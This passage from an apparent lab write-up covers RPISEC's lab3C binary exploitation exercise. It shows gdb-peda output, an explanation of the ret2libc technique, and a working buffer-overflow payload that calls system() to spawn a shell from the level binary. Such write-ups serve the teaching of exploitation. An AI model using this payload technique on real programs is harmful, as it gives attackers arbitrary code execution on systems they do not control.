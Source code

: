 ```nasm
0024| 0xbffff718 --> 0xbffff734 --> 0x7722fb53 
0028| 0xbffff71c --> 0x8049c04 --> 0xb7e3c990 (<__libc_start_main>:	push   ebp)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x42424242 in ?? ()
```

To finish this one, we'll stick to a classic exploit technique: **ret2libc**. The idea is to call the *system()* function by passing as an argument the command we want to execute, like **/bin/bash**. 

However, *system()* expect also the return address as an argument, but here, we don't really care so we'll push some junk on the stack. First, let's find a **/bin/bash** pointer and the *system()* function.

```nasm
gdb-peda$ searchmem "/bin/bash"
Searching for '/bin/bash' in: None ranges
Found 1 results, display max 1 items:
[stack] : 0xbffff8df ("/bin/bash")
gdb-peda$ p system
$1 = {<text variable, no debug info>} 0xb7e63190 <__libc_system>
```

Good. Now, let's create the exploit.

```nasm
gdb-peda$ r < <(python -c 'print "rpisec\n" + 80 * "\x41" + "\x90\x31\xe6\xb7" + "JUNK" + "\x24\x3a\xf8\xb7"')
Starting program: /levels/lab03/lab3C < <(python -c 'print "rpisec\n" + 80 * "\x41" + "\x90\x31\xe6\xb7" + "JUNK" + "\x24\x3a\xf8\xb7"')
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password: 
nope, incorrect password...

[New process 2753]
process 2753 is executing new program: /bin/dash
Reading symbols from /usr/lib/debug/lib/i386-linux-gnu/libc-2.19.so...done.
Reading symbols from /usr/lib/debug/lib/i386-linux-gnu/ld-2.19.so...done.
Reading symbols from /usr/lib/debug/lib/i386-linux-gnu/ld-2.19.so...done.
[New process 2754]
process 2754 is executing new program: /bin/dash
Reading symbols from /usr/lib/debug/lib/i386-linux-gnu/libc-2.19.so...done.
Reading symbols from /usr/lib/debug/lib/i386-linux-gnu/ld-2.19.so...done.
Reading symbols from /usr/lib/debug/lib/i386-linux-gnu/ld-2.19.so...done.
[Inferior 3 (process 2754) exited normally]
Warning: not running or target is remote
```

Bingo! It seems to be working :)

## Solution
